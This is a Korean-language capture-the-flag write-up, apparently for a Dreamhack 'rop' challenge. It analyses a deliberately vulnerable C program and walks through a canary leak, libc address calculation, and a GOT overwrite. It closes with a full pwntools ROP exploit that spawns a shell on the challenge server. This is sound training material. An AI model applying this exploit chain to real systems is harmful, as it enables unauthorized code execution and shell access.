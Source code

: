 rop 라이트업
===============


### 코드 분석 

```c
#include <stdio.h>
#include <unistd.h>

int main() {
  char buf[0x30];

  setvbuf(stdin, 0, _IONBF, 0);
  setvbuf(stdout, 0, _IONBF, 0);

  // Leak canary
  puts("[1] Leak Canary");
  write(1, "Buf: ", 5);
  read(0, buf, 0x100);
  printf("Buf: %s\n", buf);

  // Do ROP
  puts("[2] Input ROP payload");
  write(1, "Buf: ", 5);
  read(0, buf, 0x100);

  return 0;
}
```

취약점은 return to library 문제와 동일하다.   

그러나 바이너리에서 system 함수를 호출하지 않아서 PLT에 등록되지 않으며 /bin/sh 문자열도 데이터 섹션에 기록하지 않는다. 따라서 system 함수를 익스플로잇에 사용하려면 함수의 주소를 직접 구해야 하고 /bin/sh 문자열을 사용할 다른 방법을 찾아내야 한다.


## 익스플로잇

### system 함수의 주소 계산


* `system` 함수는 `libc.so.6` 라이브러리에 정의되어 있다. `read`, `puts`, `printf`와 같은 함수들도 포함하고 있으며 바이너리 실행 시 전체가 프로세스 메모리에 매핑된다.
* 바이너리가 `system` 함수를 직접 호출하지 않기 때문에 `system` 함수는 GOT에 등록되지 않는다. 하지만 `read`, `puts`, `printf`는 GOT에 등록되어 있다.
* **`system` 주소 계산 방법**: main 함수에서 이 GOT에 등록된 함수들(read, puts, printf)을 호출한 이후 이들의 GOT 주소를 읽을 수 있다. `libc.so.6`가 매핑된 영역의 임의의 주소를 알 수 있다면 같은 `libc` 버전 내에서 다른 데이터와 함수의 옵셋(거리)은 항상 같으므로, `read` 함수와 `system` 함수의 주소 차이를 이용하여 `system` 함수의 주소를 계산할 수 있다.
* **공격 전략**: `read`, `puts`, `printf`가 GOT에 등록되어 있으므로 이 중 하나의 함수의 GOT 주소를 읽은 후 그 주소와 `system` 함수 사이의 거리를 이용하여 `system` 함수의 주소를 구할 수 있다.


### "/bin/sh"

* 바이너리에는 `/bin/sh` 문자열이 직접 포함되어 있지 않다. 따라서 문자열을 임의의 버퍼에 직접 주입하거나 다른 파일에 포함된 것을 사용해야 한다.
* **`libc.so.6`에 포함된 `/bin/sh`**: 일반적으로 `libc.so.6` 라이브러리에는 `/bin/sh` 문자열이 포함되어 있다.
* **`/bin/sh` 주소 계산 방법**: `system` 함수의 주소를 계산하는 것과 유사하게 `libc` 영역의 임의의 주소를 구한 후 그 주소를 기준으로 오프셋을 더하거나 빼서 `/bin/sh` 문자열의 주소를 계산할 수 있다.
* **대체 전략**: 이 방법을 통해 주소를 알아내기 어렵거나 사용할 수 없는 상황에서는 주소를 알고 있는 버퍼에 직접 `/bin/sh`를 입력하는 것이 차선책이 될 수 있다.
* **gdb를 이용한 `/bin/sh` 주소 찾기**: pwndbg의 `search /bin/sh` 명령어를 사용하여 `libc.so.6` 내의 `/bin/sh` 문자열 주소를 찾을 수 있다. 


### GOT Overwrite

* `system` 함수와 `/bin/sh` 문자열의 주소를 알고 있으면 `pop rdi; ret` 가젯을 활용하여 `system("/bin/sh")`를 호출할 수 있다.
* **`ret2main` 패턴**: 그러나 `system` 함수를 호출한 후에는 다시 `main` 함수로 돌아와서 버퍼 오버플로우를 일으켜야 한다. 이러한 공격 패턴을 `ret2main`이라고 부른다.


### 가젯 주소 구하기

<img width="927" height="157" alt="image" src="https://github.com/user-attachments/assets/fa20a022-0670-4969-a688-ac2622c31ee2" />

<img width="610" height="172" alt="image" src="https://github.com/user-attachments/assets/ca494e3b-6d6c-44d7-9f5d-14cf2e09c22e" />


### 익스플로잇 코드

```python
from pwn import *

context(arch='amd64', os='linux')

p = remote("host8.dreamhack.games", 15432)
e = ELF("./rop")
libc = ELF("./libc.so.6")

read_plt = e.plt['read']
read_got = e.got['read']
write_plt = e.plt['write']
write_got = e.got['write']

pop_rdi = 0x400853
pop_rsi_r15 = 0x400851
ret = 0x400596

buf1 = b'A' * 0x39
p.sendafter('Buf: ', buf1)

p.recvuntil(buf1)
canary = u64(b'\x00' + p.recvn(7))
log.info(f'canary : {hex(canary)}')

payload = b'A' * 0x38
payload += p64(canary)
payload += b'A' * 0x8

payload += p64(pop_rdi)
payload += p64(1)
payload += p64(pop_rsi_r15)
payload += p64(read_got)
payload += p64(0)
payload += p64(write_plt)

payload += p64(pop_rdi)
payload += p64(0)
payload += p64(pop_rsi_r15)
payload += p64(read_got)
payload += p64(0)
payload += p64(read_plt)

payload += p64(pop_rdi)
payload += p64(read_got + 0x8)
payload += p64(ret)
payload += p64(read_plt)

p.sendafter('Buf: ', payload)

read_addr = u64(p.recvn(8))
libc_base = read_addr - libc.symbols['read']
log.info(f'read : {hex(read_addr)}')

system = libc_base + libc.symbols['system']
log.info(f'system : {hex(system)}')

p.send(p64(system) + b'/bin/sh\x00')

p.interactive()
```

### 실행 결과


<img width="921" height="517" alt="image" src="https://github.com/user-attachments/assets/5fa71fe8-e0d3-4ffe-b79c-458e89e9c92f" />

